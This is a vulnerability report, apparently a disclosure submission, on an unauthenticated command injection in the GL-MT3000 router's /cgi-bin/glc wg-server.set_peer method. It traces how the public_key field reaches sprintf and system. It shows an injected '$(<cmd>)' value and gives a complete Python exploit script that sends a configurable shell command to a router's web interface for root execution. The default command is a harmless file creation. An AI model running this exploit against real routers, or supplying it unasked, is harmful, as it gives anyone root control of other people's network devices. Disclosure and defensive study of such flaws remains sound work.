


Submission Date: 2026.5.19
Vendor: GL-MT3000
Version: 4.4.5
Firmware: openwrt-mt3000-4.4.5-0811-1691754744.tar
Download Link: https://dl.gl-inet.cn/router/mt3000/stable


An unauthenticated command injection vulnerability exists in the `/cgi-bin/glc` endpoint via the `wg-server.set_peer` method of the affected product. The `wg-server.so` native plugin at `/usr/lib/oui-httpd/rpc/wg-server.so` passes the user-supplied `public_key` parameter directly into a `wg set wgserver peer %s allowed-ips %s persistent-keepalive 25` command constructed via `sprintf()` and executed via `system()`. No shell escaping is performed on the `public_key` value, and the `/cgi-bin/glc` binary calls the plugin via `dlopen()/dlsym()` without any authentication check, resulting in unauthenticated root command execution.

The reported vulnerable flow is:

```text
Unauthenticated attacker
  -> POST /cgi-bin/glc {"object":"wg-server","method":"set_peer",
       "args":{"peer_id":1238,"name":"poc995060","public_key":"$(<cmd>)",...}}
  -> /www/cgi-bin/glc dlopen("wg-server.so") -> dlsym("set_peer")
  -> set_peer(args):
       json_object_get(args, "public_key")                          // Source
       sprintf(cmd, "wg set wgserver peer %s allowed-ips %s "
              "persistent-keepalive 25 2>/dev/null",
              public_key, allowed_ips)                              // %s → shell injection
       system(cmd)                                                  // SINK
  -> shell parses:
       wg set wgserver peer $(<cmd>) allowed-ips 0.0.0.0/0 ...
       -> $(<cmd>) executes with root privileges
```

IDA decompilation of `set_peer` at 0x001072ac (2864 bytes, 56 basic blocks) shows two `sprintf` → `system()` call chains for WireGuard peer configuration:



The function builds shell commands using the format string `"wg set wgserver peer %s allowed-ips %s persistent-keepalive 25 2>/dev/null"` (or its `preshared-key` variant when PSK is enabled). The user-supplied `public_key` is inserted into the first `%s` — the peer identifier position per the WireGuard protocol (`wg set <iface> peer <public-key> ...`). No shell metacharacter filtering is applied, allowing `$()` command substitution to execute arbitrary commands.

Exploit the vulnerability by sending a crafted HTTP request:

```python
#!/usr/bin/env python3
from __future__ import annotations

import argparse, json, ssl, urllib.error, urllib.request


class GLInetError(RuntimeError):
    pass


def post_json(base_url: str, path: str, obj: dict, timeout: int = 15, verify_ssl: bool = False) -> dict:
    ctx = ssl.create_default_context() if verify_ssl else ssl._create_unverified_context()
    req = urllib.request.Request(
        f"{base_url.rstrip('/')}{path}",
        data=json.dumps(obj).encode(),
        headers={"Content-Type": "application/json"},
        method="POST",
    )
    try:
        with urllib.request.urlopen(req, timeout=timeout, context=ctx) as resp:
            data = resp.read().decode()
    except urllib.error.HTTPError as exc:
        raise GLInetError(f"HTTP {exc.code}: {exc.read().decode(errors='replace')}") from exc
    except urllib.error.URLError as exc:
        raise GLInetError(f"Connection failed: {exc}") from exc

    if data.startswith("0 "):
        data = data[2:]
    try:
        return json.loads(data)
    except json.JSONDecodeError as exc:
        raise GLInetError(f"Unexpected response: {data}") from exc


def main() -> int:
    parser = argparse.ArgumentParser()
    parser.add_argument("--base-url", default="http://192.168.8.1")
    parser.add_argument("--command", default="touch /tmp/pwnpoc5")
    args = parser.parse_args()

    payload = f"$({args.command})"
    body = {
        "object": "wg-server",
        "method": "set_peer",
        "args": {
            "peer_id": 1238,
            "name": "poc995060",
            "public_key": payload,
            "client_ip": "10.0.0.2/24",
            "allowed_ips": "0.0.0.0/0,::/0",
            "dns": "64.6.64.6",
            "mtu": 1420,
            "persistent_keepalive": 25,
            "listen_port": 0,
            "deprecated": 0,
            "presharedkey_enable": False,
            "private_key": "oGQvk4V0PfilvXL6AhhfUe4rQVJhlwDXyFW59U/tyUU=",
        },
    }

    result = post_json(args.base_url, "/cgi-bin/glc", body)
    print(f"[+] target   : {args.base_url}")
    print(f"[+] payload  : {payload}")
    print(f"[+] response : {result}")
    print(f"[+] check whether {args.command.split()[-1]} exists on target")
    return 0


if __name__ == "__main__":
    raise SystemExit(main())
```

The exploitation is shown below.


